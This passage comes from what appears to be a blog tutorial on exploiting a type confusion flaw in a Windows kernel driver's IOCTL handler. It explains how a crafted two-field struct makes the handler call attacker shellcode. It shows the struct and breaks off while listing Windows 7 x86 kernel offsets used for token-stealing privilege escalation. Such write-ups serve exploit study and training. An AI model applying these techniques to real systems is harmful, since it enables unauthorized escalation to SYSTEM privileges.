 	printf("Exploit complete, cleaning up\n");
	CloseHandle(hDriver);
	return 0;
}
</pre>

Building and then running this doesn't trigger any errors, so lets look at what the IOCTL Handler does.

![](/content/images/2016/09/type_confusion_ioctl_handler.PNG)
Here we can see that the handler is printing the value held in the first four bytes of the passed buffer as the 'Object Type' and then calling the next four bytes as a function pointer.

![](/content/images/2016/09/type_confusion_vulnerable_function.PNG)

This means all we need to do to exploit this vulnerability is to pass a structure with two four byte fields with the second containing a pointer to our token stealing shellcode. We can create a simple struct to use as a payload to trigger this behaviour.
<pre>
typedef struct FAKE_OBJ {
	ULONG id;
	ULONG func;
} FAKE_OBJ, *PFAKE_OBJ;
</pre>
We want the 'func' variable to be a pointer to the same shellcode we've been using all along, we start including it in the project.

<pre>
// Windows 7 SP1 x86 Offsets
#define KTHREAD_OFFSET    0x124    // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET   0x050    // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET        0x0B4    // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET      0x0B8    // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET      0x0F8    // nt!_EPROCESS.Token
#define SYSTEM_PID        0x004    // SYSTEM Process PID
